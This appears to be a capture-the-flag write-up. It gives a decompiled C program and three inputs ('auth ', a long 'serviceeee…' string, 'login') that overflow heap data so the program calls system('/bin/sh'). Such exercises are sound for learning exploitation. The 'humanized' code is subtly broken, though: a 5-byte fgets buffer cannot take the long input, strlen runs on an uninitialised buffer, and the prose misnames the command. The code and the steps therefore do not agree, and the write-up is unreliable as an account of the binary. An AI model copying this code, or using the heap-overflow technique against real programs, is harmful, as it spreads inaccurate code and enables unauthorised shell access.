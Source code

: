 Here is a humanized version of the decompiled code :
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char *auth = NULL;
char *service = NULL;

int main(void) {
    char input[5];
    char temp[2];
    char buffer[125];

    while (1) {
        printf("%p, %p \n", auth, service);

        if (!fgets(input, sizeof(input), stdin)) {
            return 0;
        }

        if (strncmp(input, "auth ", 5) == 0) {
            auth = (char *)malloc(4);
            if (auth) {
                memset(auth, 0, 4);
                size_t len = strlen(temp);
                if (len < 30) {
                    strcpy(auth, temp);
                }
            }
        }

        if (strncmp(input, "reset", 5) == 0) {
            free(auth);
        }

        if (strncmp(input, "service", 6) == 0) {
            service = strdup(buffer);
        }

        if (strncmp(input, "login", 5) == 0) {
            if (*(int *)(auth + 0x20) == 0) {
                fwrite("Password:\n", 1, 10, stdout);
            } else {
                system("/bin/sh");
            }
        }
    }

    return 0;
}
```

We can see straight away that if the input is login, it checks if auth + 0x20 == 0 and spawns a shell accordingly.

We also see that there inputing "auth " will let you continue in the code.

If you input "servic", the input is strdup'ed. We can exploit that to overflow to auth and write the auth + 0x20 byte to something different than 0 and then login to spawn the shell.

First step :
`"auth "`
Second step :
`"serviceeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee"`
Third step :
`login`

Then the shell spawns.
